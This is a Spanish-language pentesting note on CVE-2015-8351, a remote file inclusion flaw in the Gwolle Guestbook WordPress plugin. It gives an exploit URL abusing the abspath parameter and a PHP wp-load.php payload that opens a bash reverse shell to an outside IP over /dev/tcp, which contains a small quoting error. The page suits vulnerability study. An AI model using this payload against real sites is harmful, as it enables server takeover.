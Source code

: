 ```yaml
---
description: Gwolle Guestbook Wordpress Plugin Remote File Inclusion (RFI)
cover: >-
  https://webdevolutions.blob.core.windows.net/cms/assets/Devolutions_is_CVE_Numbering_Authority_CNA_73ca6aa5df.png
coverY: -19
---
```


# ⚠️ RFI - CVE-2015-8351

{% hint style="info" %}
Enlaces sobre la vulnerabilidad:

1. [https://www.exploit-db.com/exploits/38861](https://www.exploit-db.com/exploits/38861)
2. [https://nvd.nist.gov/vuln/detail/CVE-2015-8351](https://nvd.nist.gov/vuln/detail/CVE-2015-8351)
3. [https://vuldb.com/es/?id.106363](https://vuldb.com/es/?id.106363)
4. [https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c20](https://wpscan.com/vulnerability/65d869e8-5c50-4c82-9101-6b533da0c207)
{% endhint %}

Esta vulnerabilidad consiste en una Inclusión Remota de Archivos a través de una un parámetro vulnerable (abspath), afecta a las versiones 1.5.3 (Puede que versiones < 1.5.3)

{% hint style="warning" %}
Para que esta vulnerabilidad sea explotada, se debe de tener `allow_url_include` en 1. Si no tiene el valor 1, solo se podrán incluir archivos locales
{% endhint %}

Esto ocurre porque enviar una solicitud a la siguiente URL:

```http
http://mywebsite.com/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://192.168.11.1
```

Modificando el ultimo valor del ultimo parámetro, el servidor nos hará una petición, buscando el archivo wp-load.php, el cual podemos escribir nosotros con código malicioso PHP. Cuando la maquina ejecute este archivo escrito por nosotros, ejecutará el código PHP. Ejemplo del código PHP:

{% code title="wp-load.php" %}
```php
<?php
    system(bash -c "bash -i >& /dev/tcp/192.168.111.45/443 0>&1);
?>
// Reverse Shell Example
```
{% endcode %}

{% hint style="danger" %}
Existen Pruebas de Concepto (Proof of Concept - PoC) disponibles:

1. [https://github.com/igruntplay/exploit-CVE-2015-8351](https://github.com/igruntplay/exploit-CVE-2015-8351)
{% endhint %}
